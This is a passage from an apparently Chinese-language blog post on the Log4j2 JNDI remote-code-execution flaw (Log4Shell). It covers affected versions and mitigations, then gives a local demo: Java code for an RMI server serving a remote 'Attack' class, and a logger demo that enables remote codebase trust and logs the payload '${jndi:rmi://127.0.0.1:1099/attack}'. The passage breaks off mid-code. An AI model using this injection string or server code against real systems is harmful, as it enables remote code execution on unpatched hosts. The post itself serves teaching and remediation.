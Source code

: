 2.15.0 之前的任何 Log4J 版本都会受到此特定问题的影响。Log4J 的 v1 分支被认为是生命周期结束 (EOL)，它容易受到其他 RCE 向量的攻击，因此建议仍然尽可能更新到 2.15.0。

## 补救建议

此问题已在 Log4J v2.15.0 中修复。Apache 日志服务团队提供以下缓解建议：
在以前的版本 (>=2.10) 中，可以通过将系统属性“log4j2.formatMsgNoLookups”设置为“true”或从类路径中删除 JndiLookup 类来缓解这种行为（例如：zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class）。

Java 8u121 通过将“com.sun.jndi.rmi.object.trustURLCodebase”和“com.sun.jndi.cosnaming.object.trustURLCodebase”默认为“false”来防止 RCE。  

可以通过在项目存储库中搜索 Log4J 使用情况来手动检查受影响版本的 Log4J 的使用情况，该存储库通常位于 pom.xml 文件中。在可能的情况下，升级到 Log4J 版本 2.15.0。请注意，Log4J v1 已结束生命周期 (EOL)，不会收到针对此问题的补丁。Log4J v1 也容易受到其他 RCE 向量的影响，我们建议尽可能迁移到 Log4J 2.15.0。如果无法升级，请确保在客户端和服务器端组件上都设置 
-Dlog4j2.formatMsgNoLookups=true 系统属性。

## 案例

![](/images/2021-12-12-apache-log4j2-security/4.png)


此次演示，主要在本地启用了一个 RMI Server，注册了一个本地的 nginx 代理服务，本地代理服务有一个远程字节码文件，Log4j 去调用这个远程 RMI Server 服务，此时 Log4j demo 如果使用的是低版本的 Log4j-Core 日志框架，就会被注入 Attack 字节码文件。
```
public class RMIServer {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            System.out.println("Local Registry RMI in 1099");
            Reference reference = new Reference("Attack",
                    "Attack", "http://127.0.0.1:8000/");
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("attack", referenceWrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
```
public class Log4jDemo {
    private static final Logger LOGGER = LogManager.getLogger();
    /**
     * 旧版本jdk带来的问题，这些问题在jdk6u211，7u201，8u191之后就不会再发生了，
     * 除非你刻意添加参数信任了远程文件，因为jdk压根就不信任远程class文件,
     * 至少以下这种场景简单调用远程 class 文件是不会发生的
     *
     * @param args
     */
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        try {
            String name = "${jndi:rmi://127.0.0.1:1099/attack}";
            String os = "${java:os}";
            LOGGER.info("tanjunchen {}", os);
            // 2021-12-12 11:28:27,963 main WARN Error looking up JNDI resource [rmi://127.0.0.1:1099/attack].
            // javax.naming.ConfigurationException: The object factory is untrusted.
            // Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
            LOGGER.info("Hello attack,{}", name);
        } catch (Exception e) {
            
```